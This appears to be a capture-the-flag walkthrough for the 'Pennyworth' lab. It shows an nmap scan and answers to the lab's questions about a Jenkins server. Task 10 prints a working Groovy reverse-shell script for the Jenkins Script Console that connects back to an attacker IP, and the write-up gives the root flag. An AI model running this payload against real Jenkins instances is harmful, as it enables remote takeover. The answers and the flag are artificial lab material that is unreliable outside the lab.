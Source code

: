 # Pennyworth

## Initial Scan

```nmap
sudo nmap -T4 -Pn -sV -sC -v 10.129.64.37 -oA Penntyworth
```

<figure><img src="../../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

## Task 1

What does the acronym CVE stand for?

Answer: Common Vulnerabilities and Exposures

## Task 2

What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

Answer: Confidentiality, Integrity, Availability

## Task 3

What is the version of the service running on port 8080?

<figure><img src="../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

Answer: Jetty 9.4.39.v20210325

## Task 4

What version of Jenkins is running on the target?

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Answer: 2.289.1

## Task 5

What type of script is accepted as input on the Jenkins Script Console?

Answer: Groovy

## Task 6

What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

Answer: cmd.exe

## Task 7

What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

Answer: ifconfig

## Task 8

What switch should we use with netcat for it to use UDP transport mode?

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Answer: -u

## Task 9

What is the term used to describe making a target host initiate a connection back to the attacker host?

Answer: reverse shell

## Task 10

Submit Root Flag

&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

```groovy
String host="10.10.14.80";
int port=8008;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port); InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream(); OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Answer: 9cdfb439c7876e703e307864c9167a15
